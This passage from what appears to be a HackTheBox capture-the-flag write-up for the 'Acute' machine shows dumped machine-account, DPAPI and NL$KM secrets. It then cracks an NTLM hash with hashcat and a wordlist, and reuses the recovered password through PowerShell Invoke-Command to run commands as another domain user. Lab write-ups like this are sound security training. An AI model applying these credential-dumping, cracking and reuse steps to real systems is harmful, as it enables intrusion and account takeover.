 ```bash
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:d53548e375b01330d9749a466a1566871d95ed8f069dd9bba68372a03784bcac40bd640e76517da77940f84dbb1b7c8e70501b0783224199aff238e34ef4d65bbe45efe2cb833a06e1a94fa2483fe85361fcb88e6353d06a51fead5c1c30c985a80f965786fe99900242bbce5acda9adc64741eaf0b619cb1be992528b75aa5b694462ed1a41d9fbccff8f8bf340cd4240cb74e012cb794c17ae86749918645c041e8bc4adbb74b4dd583876c689dc7b1a6376b545734decb02b4ec818fd5805bcb848e732677ca37c0448e86fc070fced14d96a712725c4cd136b44b892e52a7b9d19a013305621fb124817e1005c63
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:9fc5fa219603120dfd0d57e8a75e050e
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x574d0cc939c9f986cba32d1546a7fa28747425e0
dpapi_userkey:0x4a77ea6673a027ecd81e4ca010b1d3f70fe1d9cd
[*] NL$KM 
 0000   62 2A 29 8D F9 77 CC DD  EE EB 23 20 B2 E2 AF 59   b*)..w....# ...Y
 0010   0B F6 33 E0 95 5D B0 03  B1 01 85 55 9D 16 64 4D   ..3..].....U..dM
 0020   53 1F 93 7B FB EF 2B F7  6E 76 B1 02 3D 63 CC DF   S..{..+.nv..=c..
 0030   F0 35 6F E3 19 8A 69 C1  2E F6 78 80 45 51 EE 0A   .5o...i...x.EQ..
NL$KM:622a298df977ccddeeeb2320b2e2af590bf633e0955db003b10185559d16644d531f937bfbef2bf76e76b1023d63ccdff0356fe3198a69c12ef678804551ee0a
[-] NTDSHashes.__init__() got an unexpected keyword argument 'skipUser'
[*] Cleaning up... 
```

Using `hashcat`, I was able to crack `Administartor`'s hash.

```bash
┌──(kali㉿kali)-[~/htb/acute/hashdump]
└─$ hashcat -m 1000 -a 0 hashes /usr/share/wordlists/rockyou.txt        
hashcat (v6.2.6) starting

...SNIP...

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

a29f7623fd11550def0192de9246f46b:Password@123     
...SNIP...
```

### Run commands as `awallace`

I tried to use the cracked password with prepared username list on PSWA session, but it didn't work.

Instead, I used powershell command line approach as we did so far, and `awallace` worked with found credential.

```powershell
PS C:\Users\jmorgan\Documents> $pass = ConvertTo-SecureString "Password@123" -AsPlaintext -Force


PS C:\Users\jmorgan\Documents> $cred = New-Object System.Management.Automation.PSCredential ("acute\awallace", $pass)


PS C:\Users\jmorgan\Documents> Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { whoami }

acute\awallace
```
